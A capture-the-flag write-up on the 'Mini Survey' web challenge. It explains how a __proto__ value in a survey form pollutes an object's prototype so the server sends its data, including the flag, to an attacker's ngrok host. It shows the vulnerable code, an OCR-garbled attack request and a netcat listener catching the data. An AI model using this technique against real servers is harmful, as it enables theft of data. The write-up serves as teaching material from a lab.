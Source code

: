 # Mini Survey
> Please answer this survey for the better of all

> - Minnesota Dept of Roads & Railways

## About the Challenge
We were given a website and a source code (You can download the source code [here](miniSurvery_updated_2.zip)). This website has 2 functionality:

* Submit pollution survey
* Submit road quality survey


[Image extracted text: Survey
MoT
Road Quality
Pollution
Name:
City Name:
Road Quality (1 to 10):
Reasons(seperated by commas):
Submit]


## How to Solve?
If we look at the source code, the `sendData` function in JavaScript prepares data, configures backup server details, and sends the data to a server. It checks if the server's host ends with ".ngrok.io" and, if true, establishes a TCP connection to the server using the specified host and port. 

```javascript
function sendData(data) {
    const postData = JSON.stringify(data);

    if (data.host != undefined) {
        backupServerHost = data.host;
    }

    if (data.port != undefined) {
        backupServerPort = data.port;
    }

    const options = {
        host: backupServerHost || "localhost",
        port: backupServerPort || "8888",
    };

    if (
        typeof options.host === "string" &&
        options.host.endsWith(".ngrok.io")
    ) {
        const socket = net.connect(options, () => {
            socket.write(postData);
            socket.end();
        });

        socket.on("error", (err) => {
            console.error("Error", err.message);
        });
    }
}
```

So we need to set the `option.host` and `option.port` variable to our ngrok server. But to do that, we need to do prototype pollution first 

```javascript
app.post("/pollutionsurvey", (req, res) => {
    let fieldInput1 = req.body.name;
    let fieldInput2 = req.body.city;
    let fieldInput3 = req.body.pollutionRate;

    surveyOneInitialData[fieldInput1] = { [fieldInput2]: fieldInput3 };

    surveyOneInitialData = updateDBs(surveyOneInitialData, {
        Name: { City: "Rating" },
    });

    res.redirect("/thankyou");
});
```

To do prototype pollution we need to fill `__proto__` in the parameter `name`. Here is the request I sent to the server to set `host` and `port` to our ngrok server


[Image extracted text: POST /pollutionsurvey HTTP/1.1
2
Host:
mini-survey
web  nitectf.live
3 Content-Length:
58
Cache-Control:
max-age-0
5
sec-ch-ua
"Not_A
Brand" ;V="8"
"Chromium" ;V="120"
6 sec-ch-ua-mobile:
70
sec-ch-ua-platform:
"macOs"
Upgrade-Insecure-Requests
Origin:
http: //localhost
3333
0 Content-Type
application/X-WWw-form-urlencoded
'1
User-Agent:
Mozilla/5.0
(Windows
NT
10.0;
Win64;
X64)
AppleWebKit/537.36
(KHTML ,
like
Gecko)
Chrome/120.0.6099.71
Safari/537
36
2
Accept:
text/html,application/xhtml+xml,application/xml;q-0.9, image/avif_
image/webp, image/apng
*/*;q-0.8,application/signed-exchange;V-b3;
q=0_
3
Sec-Fetch-Site:
same-origin
4
Sec-Fetch-Mode:
navigate
5
Sec-Fetch-User:
21
16
Sec-Fetch-Dest:
document
7
Referer:
http: //localhost:3333/pollutionsurvey
8 Accept-Encoding
gzip,
deflate
br
9 Accept-Language
en-US , en;q=0.9
0
Connection:
close
1
2
name=
proto
acity[]=hostapollutionRate-6.
eu.ngrok. io
tcp.]


And then check our server again, the flag will be reflected like this


[Image extracted text: [root@ubuntu-s-Ivcpu-2gb-sgpl-01:~#
nc
~nvlp
8888
Listening
on
0.0.0.0
8888
Connection
received
on
127.0.0.1
33366
{"flag"
"nite{prote_pOllut3d_116a4601b79d6b8f}"
log"
new entry added"}root@ubuntu-s-Ivcpu-2gb-sgpl-0_]


```
nite{pr0t0_p0llut3d_116a4601b79d6b8f}
```